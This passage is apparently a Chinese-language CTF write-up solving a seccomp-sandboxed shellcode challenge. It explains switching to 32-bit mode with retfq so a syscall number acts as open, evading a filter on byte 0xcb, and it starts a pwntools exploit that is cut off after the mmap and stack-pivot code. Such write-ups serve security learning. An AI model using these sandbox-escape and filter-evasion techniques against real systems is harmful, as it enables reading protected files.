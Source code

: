 使用 seccomp-tools 可以查看能够使用的系统调用:

```shell
seccomp-tools dump ./shellcode 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x25 0x05 0x00 0x40000000  if (A > 0x40000000) goto 0007
 0002: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0007
 0003: 0x15 0x03 0x00 0x00000005  if (A == fstat) goto 0007
 0004: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0007
 0005: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

发现仅有 write, fstat, read, mmap 可用. 看到 write 和 read, 合理怀疑应该是 orw (open, read, write) 获取 flag. 但是缺少了 open. 一通搜索后发现, fstat 的系统调用和 32 位下 open 是一样的. 又一通搜索后发现, 64 位程序可以用 `retfq` 指令切换到 32 运行模式, 32 位下又可以通过 `retf` 切换回来.

`retfq` 会首先 `pop rip`, 然后 `pop cs`. cs (Code Secgment) 寄存器的值为 0x23 时, 程序以 32 位模式运行. 为 0x33 时, 以 64 位模式运行. (具体原理和 CPU 寻址有关, 不是很懂, 下次再学.)

需要注意的是, 当程序从 64 位变到 32 位后, 由于寻址能力的不同, 寄存器如 rsp, rip 等仅会保留低 32 位的值, 这样以来, 指令就不能正确访问, 栈的位置也因为 "截断" 而迁移到了非法内存. 所以需要把指令和栈想办法先丢到低地址去. 这时, mmap 就能发挥作用了. 可以尝试申请一块地址在 0x40404000 的内存 (为什么是这个数? 因为搜到的类似题目的 wp 都用的这个数), 并且确保这块内存具有可读可写可执行权限. 把 rsp 跳到这块内存的某一处, rip 跳到另一处, 就达到了迁移的效果.

main 函数在执行 shellcode 前, 还调用了 fcn.00001209. `s fcn.00001209; pdg`:

```c
bool fcn.00001209(char *arg1)
{
    int64_t iVar1;
    char *s;
    
    iVar1 = sym.imp.strchr(arg1, 0xffffffcb);
    return iVar1 == 0;
}
```

这个函数就是检查输入有没有 0xcb, 有的话就不执行 shellcode. 0xcb 对应的指令是 retf, 0x48 0xcb 对应的指令是 retfq. 也就是代码还需要绕过一下这个检查. 向申请的那块内存中写指令的时候, 可以用一下 xor 或者 add, sub 等操作达到目的. (怎么有人手工汇编然后用汇编向某块内存中写汇编指令的啊)

到这里就只剩下写 shellcode 了, 逻辑是先 mmap 一段低地址内存 (比如 0x40404000), 然后向这块内存中写指令: 先 retfq 切换到 32 位, 然后 open, 再用 retq 切换回 64 位, 最后 read 打开的文件, 将数据保存到可用位置 (比如 0x40404200), 再 write 到屏幕. 写完指令后, 将栈指针迁移到可用的低地址位置 (比如 0x40404100), 然后跳转到刚刚写的指令位置 (0x40404000).

exp:

```python
from pwn import *

shellcode_mmap = asm('''
mov edi, 0x40404000
mov esi, 0x100
mov edx, 0x7
mov ecx, 0x22
mov r8d, 0xffffffff
mov r9d, 0
mov eax, 0x09
syscall
''', arch='amd64', os='linux')

shellcode_mov_sp = asm('''
mov esp, 0x40404100
''', arch='amd64', os='linux')


'''
```